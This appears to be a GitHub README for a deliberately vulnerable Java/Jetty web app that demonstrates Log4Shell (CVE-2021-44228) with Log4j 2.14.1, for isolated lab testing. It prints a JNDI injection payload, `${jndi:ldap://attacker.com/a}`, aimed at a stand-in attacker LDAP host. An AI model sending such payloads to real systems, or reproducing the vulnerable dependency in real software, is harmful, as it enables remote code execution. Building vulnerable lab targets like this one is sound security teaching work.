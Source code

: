 # CVE-2021-44228 Log4Shell WebApp Demo

This is a minimal Java web application vulnerable to **Log4Shell (CVE-2021-44228)**, built with:

- Java + Jetty (embedded)
- Log4j 2.14.1 (vulnerable)
- Simple HTML form
- Docker or manual Java support

---

## Quick Start

### Prerequisites:
- Debian/Ubuntu-based system
- Internet access

### Run the setup script:
```bash
chmod +x setup.sh
./setup.sh
```

Open your browser and visit:
👉 [http://localhost:8080](http://localhost:8080)

---

## Docker Alternative

If you prefer Docker:

```bash
docker build -t log4shell-webform .
docker run -p 8080:8080 log4shell-webform
```

---

## Test Payload (work in progress)

Submit the following payload to the form:
```text
${jndi:ldap://attacker.com/a}
```
This will be **logged by Log4j**, potentially triggering the Log4Shell exploit **if you have a rogue LDAP server running**.

---

## Project Structure
```
CyberSec25/
├── Main.java
├── log4j2.xml
├── Dockerfile
├── setup.sh
├── README.md
└── libs/ (downloaded automatically)
```

---

## Disclaimer
This project is intentionally vulnerable. Use responsibly in **isolated test environments** only. The author takes no responsibility for misuse.

